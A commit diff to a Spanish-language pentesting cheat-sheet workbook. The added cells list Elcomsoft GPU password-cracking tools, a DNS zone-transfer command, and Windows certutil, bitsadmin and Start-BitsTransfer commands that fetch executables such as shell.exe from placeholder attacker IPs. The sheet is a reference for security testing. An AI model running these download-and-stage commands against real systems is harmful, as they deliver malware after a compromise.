

Before and after one commit to AmatheraeWorld/AmatheraeWorld, an Excel workbook: CheatSheet.xlsm, sheet Explotacion & Post-Explotacion, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no cell formats; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

```diff
--- a/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
+++ b/CheatSheet.xlsm (sheet Explotacion & Post-Explotacion)
-sheet tab: WIFI
+sheet tab: Wireless
+sheet tab: Reversing & Forensics
-B34: (empty)
+B34: ELCOMSOFT
+B34:D34 merged
-B35: (empty)
+B35: Comando
-C35: (empty)
+C35: Descripcion
-D35: (empty)
+D35: Anotaciones
-B36: (empty)
+B36: Elcomsoft Wireless Security Auditor
-C36: (empty)
+C36: Crackeo de claves Wifi con aceleracion GPU
-D36:D38: (empty)
+D36:D38: Se puede hacer distribuido
-J36: (empty)
+J36: CERTUTIL
+J36:L36 merged
-B37: (empty)
+B37: ElcomSoft Distributed Password Recovery
-C37: (empty)
+C37: Crackeo de archivos comprimidos, documentos office, y cryptografia a traves de GPU
-J37: (empty)
+J37: Comando
-K37: (empty)
+K37: Descripcion
-L37: (empty)
+L37: Anotaciones
-B38: (empty)
+B38: Elcomsoft Desktop Forensic Bundle
-C38: (empty)
+C38: Crackeo de archivos comprimidos, documentos office, y cryptografia, Todo lo relacionado con Forense a traves de GPU
-J38: (empty)
+J38: certutil.exe -f -urlcache -split http://10.10.10.10:8000/recurso.exe recurso.exe
-K38: (empty)
+K38: Para descargar cosas desde la terminal de windows
-L38: (empty)
+L38: Es para descargar y validar certificados pero tiene un bug que puedes descargar cualquier cosa como malware
-J40: (empty)
+J40: BITSADMIN
+J40:L40 merged
-J41: (empty)
+J41: Comando
-K41: (empty)
+K41: Descripcion
-L41: (empty)
+L41: Anotaciones
-J42: (empty)
+J42: bitsadmin /transfer pablo_poc http://1.1.1.1/file.png c:\destino\file.png
-K42: (empty)
+K42: Para descargar un recurso y donde almacenarlo
-J43: (empty)
+J43: Start-BitsTransfer -Source http://10.10.10.10/shell.exe -Destination c:\destino\shell.exe
-K43: (empty)
+K43: cmdlet de powershell
-V43: (empty)
+V43: dig axfr dominio 10.10.10.10
-W43: (empty)
+W43: Enumerar subdominios DNS
-X43: (empty)
+X43: Hace una transferencia de zona
```
Also changed, not shown: 9 added rows, 1 removed row, 31 edited cells and merged cells elsewhere in this sheet, sheet General, sheet Parseo Gitbook, sheet Enumeracion & Escaneos, sheet Wireless, sheet Reconocimiento & Informacion, sheet Interceptadores & Web, 1 more sheet, cell formats, formulas that keep their value.
